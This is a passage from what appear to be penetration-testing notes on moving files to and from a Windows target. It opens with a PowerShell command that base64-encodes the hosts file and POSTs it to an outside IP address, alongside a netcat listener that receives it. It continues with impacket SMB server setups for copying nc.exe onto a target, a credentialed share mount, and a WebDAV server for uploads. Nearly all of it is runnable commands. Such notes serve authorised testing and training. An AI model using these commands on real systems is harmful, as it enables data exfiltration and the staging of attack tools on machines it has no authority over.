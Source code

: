 ```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://13.13.13.13:8000/ -Method POST -Body $b64
```

```bash
nc -lvnp 8000
```

```bash
echo <base64> | base64 -d -w 0 > hosts
```

## <mark style="color:yellow;">SMB</mark>

### <mark style="color:blue;">Downloads</mark>

1. **Create the SMB Server**

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

2. **Copy a File from the SMB Server**

```powershell
C:\> copy \\192.168.220.133\share\nc.exe
```

* But in some scenarios there would be an error, which forbids us unauthentificated guest access, so we could creat a smb server with **authentification**

1. **Create the SMB Server with a Username and Password**

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

2. **Mount the SMB Server with Username and Password**

```powershell
C:\> net use n: \\192.168.220.133\share /user:test test
```

### <mark style="color:blue;">Uploads</mark>

SMB Uploads will be more tricky because companies usually block uploads to SMB, cause it could cause a huge problem. BUUUT we could use HTTP or HTTPS protocol in return. It's because when you use SMB, it will first attempt to connect using SMB protocol, and if there's no SMB share available, it'll try to connect using HTTP. But for this we need WebDav protocol, it enables a webserver to behave like a fileserver, which we need. First you need to install it

```bash
sudo pip install wsgidav cheroot
```

1. **Using the WebDav Python module**

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
